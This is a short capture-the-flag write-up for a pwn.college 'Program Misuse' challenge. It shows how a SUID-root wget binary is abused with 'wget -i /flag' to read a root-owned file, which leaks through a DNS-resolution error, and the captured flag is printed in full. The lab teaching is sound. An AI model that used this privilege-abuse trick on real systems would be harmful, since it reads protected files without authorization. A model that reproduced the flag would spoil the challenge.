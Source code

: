 # Challenge Name: wget
**Category**: Program Misuse  
**Platform**: pwn.college  
**Difficulty**: Beginner  
**Date**: 2025-07-16  
**Author**: Himanshu Parate

---

## 🧠 Summary:
The challenge abuses a SUID bit set on `/usr/bin/wget`, allowing an unprivileged user to read the root-owned flag file at `/flag`.

---

## 🔍 Enumeration

```bash
ls -l /usr/bin/wget
```

Output:
```
-rwsr-xr-x 1 root root 47480 Sep  5  2019 /usr/bin/wget
```

- The `s` in `-rws` indicates it's a SUID binary.
- `wget` runs with **root privileges**.

## 🚀 Exploitation

The `wget` -i option downloads multiple files listed in given file

```bash
wget -i /flag
```

Output:
```
--2025-07-16 14:25:23--  http://pwn.college%7Be7-8uxknyps3obgq_phy7hh3cny.djtoxwsm0izmyezw%7D/
Resolving pwn.college{e7-8uxknyps3obgq_phy7hh3cny.djtoxwsm0izmyezw} (pwn.college{e7-8uxknyps3obgq_phy7hh3cny.djtoxwsm0izmyezw})... failed: Name or service not known.
wget: unable to resolve host address ‘pwn.college{e7-8uxknyps3obgq_phy7hh3cny.djtoxwsm0izmyezw}’
```
